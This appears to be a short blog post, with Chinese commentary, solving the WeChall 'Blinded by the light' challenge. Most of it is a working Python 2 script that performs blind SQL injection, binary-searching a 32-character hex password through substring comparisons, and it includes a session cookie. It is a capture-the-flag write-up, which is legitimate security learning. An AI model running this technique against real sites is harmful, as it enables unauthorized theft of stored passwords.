 ```yaml
---
title: Blinded by the light
author: rk700
layout: post
tags:
  - sql
  - wechall
---
```

<http://www.wechall.net/challenge/blind_light/index.php>  
这道题是盲注，32位的HEX，正好用了128次query

下面是python代码

{% highlight python %}
#!/usr/bin/env python2

import urllib
import urllib2

def makePayload(statement):
    return "' or substring(password, %d, 1)%s'%s" % (statement[0], statement[1], statement[2])
    
def checkResponse(response):
    return response.find("Welcome back") > 0

def doAssert(statement):
    url = 'http://www.wechall.net/challenge/blind_light/index.php'
    values = {'injection':makePayload(statement),'inject':'Inject'}
    data = urllib.urlencode(values)
    req = urllib2.Request(url, data)
    req.add_header('cookie','WC=7374566-11403-7iblKzppaCoukyl1')
    response = urllib2.urlopen(req)
    content = response.read()

    return checkResponse(content)
 
if __name__ == "__main__":
    alphalist = "0123456789ABCDEF"
    result = []
    for idx in range(1,33):
        start = 0
        end = 16 #[start, end)
        while (start < end):
            #print("[%d, %d)" % (start, end))
            if (end - start == 1):
                result.append(alphalist[start])
                break
            else:
                middle = (start + end)/2
                if(doAssert([idx, '<', alphalist[middle]])):
                    end = middle
                else:
                    start = middle
    print ''.join(result)
{% endhighlight %}